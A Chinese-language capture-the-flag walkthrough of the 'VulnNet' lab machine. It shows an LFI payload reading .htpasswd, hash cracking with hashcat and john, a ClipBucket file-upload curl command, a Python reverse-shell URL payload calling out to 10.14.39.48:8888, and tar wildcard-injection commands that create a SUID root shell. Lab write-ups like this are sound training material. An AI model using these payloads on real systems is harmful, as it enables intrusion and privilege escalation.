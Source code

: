 # VulnNet

你能利用VulnNet Entertainment的错误配置吗？

=> You will have to add a machine IP with domain vulnnet.thm to your /etc/hosts

---

## 端口扫描

循例 nmap扫：

    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

进入web查看，登录按钮引导到/login，但页面不存在。

检索页面源代码，发现：

    <script src="/js/index__7ed54732.js"></script>
	<script src="/js/index__d8338055.js"></script>

在两个js中发现了：

    http://broadcast.vulnnet.thm
    http://vulnnet.thm/index.php?referer=

第一个是一个登录弹窗。

## LFI

第二个经过一番尝试，是LFI

我们的端口扫描结果告诉我们，这是apache2，并且有一个登录页面

查看/etc/apache2/apache2.conf还告诉我：

    # The following lines prevent .htaccess and .htpasswd files from being
    # viewed by Web clients.

种种线索都指向了.htpasswd这个文件，我们通过LFI查看它是否有什么东西：

    view-source:http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd

    developers:$apr1$ntOz***********7bJv0P0

## hashcat爆破

我们将使用hashcat进行爆破，我们可以通过官方的[hash示例](https://hashcat.net/wiki/doku.php?id=example_hashes)来查找与我们的hash类型一致的示例及其hash-mode

hashcat爆破：

    hashcat -a 0 -m 1600 '$apr1$ntOz2ERF$Sd6F*********7bJv0P0' /usr/share/wordlists/rockyou.txt

我们得到明文密码：

    997******mfsls

## 任意文件上传

登录进去又是一套新的系统，查看源代码披露了CMS版本号：

    ClipBucket version 4.0

searchsploit发现：

    Exploit: ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection

任意文件上传payload:

    curl -F "file=@aa.php" -F "plupload=1" -F "name=cmd.php" http://broadcast.vulnnet.thm/actions/beats_uploader.php/ -u "developers:99******fsls"

    creating file{"success":"yes","file_name":"16731578632e3053","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}

从/actions目录下就能找到CB_BEATS_UPLOAD_DIR文件夹，我们上传的文件也就在里面

## Reverse shell

打开我们上传的php一句话发现被执行了，我们尝试使用它来reverse shell

payload:

    http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/16731578632e3053.php?cmd=python3%20-c%20%27socket=__import__(%22socket%22);os=__import__(%22os%22);pty=__import__(%22pty%22);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.14.39.48%22,8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22)%27

开启nc监听，成功getshell

## Cronjob

    www-data@vulnnet:/var/www/html$ cat /etc/crontab

发现，以root权限运行：

    */2   * * * *	root	/var/opt/backupsrv.sh

查看该文件权限：

    ls -la /var/opt/backupsrv.sh
    -rwxr--r-- 1 root root 530 Jan 23  2021 /var/opt/backupsrv.sh

虽然没权限修改，我们再看看内容：

    #!/bin/bash

    # Where to backup to.
    dest="/var/backups"

    # What to backup. 
    cd /home/server-management/Documents
    backup_files="*"

    # Create archive filename.
    day=$(date +%A)
    hostname=$(hostname -s)
    archive_file="$hostname-$day.tgz"

    # Print start status message.
    echo "Backing up $backup_files to $dest/$archive_file"
    date
    echo

    # Backup the files using tar.
    tar czf $dest/$archive_file $backup_files

    # Print end status message.
    echo
    echo "Backup finished"
    date

    # Long listing of files in $dest to check file sizes.
    ls -lh $dest

简单来讲，就是将/home/server-management/Documents/定时创建备份文件到/var/backups/

## 横向移动

由于我们没有server-management的读权限，自然就无法进行tar通配符注入

我们先查看/var/backups下的文件，发现有权限读取ssh-backup.tar.gz

    www-data@vulnnet:/var/backups$ cp ./ssh-backup.tar.gz /tmp
    www-data@vulnnet:/tmp$ tar -zxvf ./ssh-backup.tar.gz

将id_rsa内容保存到攻击机并修改权限：

    chmod 400 ./test1.txt

查看有几个user:

    grep home /etc/passwd

    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash

## ssh2john

尝试使用私钥登录：

    ssh server-management@10.10.94.73 -i ./test1.txt

需要验证密码，我们通过ssh2john转hash，然后使用john爆破：

    ssh2john ./test1.txt > ./hash
    john --wordlist=/usr/share/wordlists/rockyou.txt ./hash

很快得到密码：

    on******yac

再次登录ssh成功：

    server-management@vulnnet:~$ cat ./user.txt

## 权限提升 - tar通配符注入

还记得刚刚的cronjob，现在我们有权限在那个文件夹动手动脚了

尝试tar通配符注入:

    server-management@vulnnet:~/Documents$ echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > ./getroot.sh
    server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh getroot.sh"
    server-management@vulnnet:~/Documents$ echo "" > "--checkpoint=1"

静等一小会，/tmp将会出现一个带suid的bash：

    ls -la /tmp
    server-management@vulnnet:~/Documents$ /tmp/bash -p
    bash-4.4# whoami
    root
    bash-4.4# cat /root/root.txt

成功getroot
